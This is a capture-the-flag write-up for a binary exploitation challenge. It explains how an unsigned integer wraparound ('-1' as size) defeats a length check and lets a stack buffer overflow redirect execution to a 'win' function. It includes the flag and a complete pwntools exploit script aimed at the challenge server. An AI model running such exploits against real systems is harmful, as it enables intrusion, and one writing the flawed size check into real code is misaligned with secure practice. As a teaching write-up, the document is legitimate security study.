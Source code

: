 ```yaml
---
title: "yet another bof pwn"
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
points: 100
solves: 23
flag: Meta4Sec{e6b760bc7b7f2e252a2c50692c5e4ce3}
---
```


> this is bof
>
> `nc 117.53.46.98 10000`

by `rui`

---

We were given a file `dist.zip` containing `chall` and `main.c`. Thanks to the problem setter for providing the source code, so we didn’t need to open IDA Pro. By reading the source code, we can identify a buffer overflow vulnerability.

Here is the relevant part of the source code:

```c
int main(){
    char buf[MAX];
    unsigned size;
    printf("size: ");
    scanf("%u", &size);
    if (size + 1 > MAX) {
        printf("no bof pls\n");
        exit(0);
    }
    printf("data: ");
    read(0, buf, size);
    buf[strcspn(buf, "\n")] = '\0';
    return 0;
}
```

The vulnerability lies in the `size + 1` check. When we input `-1` as the size, `size + 1` becomes `0` due to integer underflow. This bypasses the check, and the program proceeds to `read(0, buf, size);` where `size` is interpreted as the maximum value of an `unsigned int`.

This allows us to exploit the program by sending input longer than `MAX`, overwriting the return address of the `main` function, and redirecting execution to the `win` function.

Here is the full exploit:

```python
from pwn import *

BINARY = './dist/chall'

context.log_level = 'debug'
context.binary = BINARY

e = ELF(BINARY)
# r = process(BINARY)
r = remote('117.53.46.98',  10000)

r.sendlineafter(b'size: ', b'-1')
r.sendline(flat([
    cyclic(256),
    cyclic(8),
    e.sym['win']
]))

r.interactive()
```

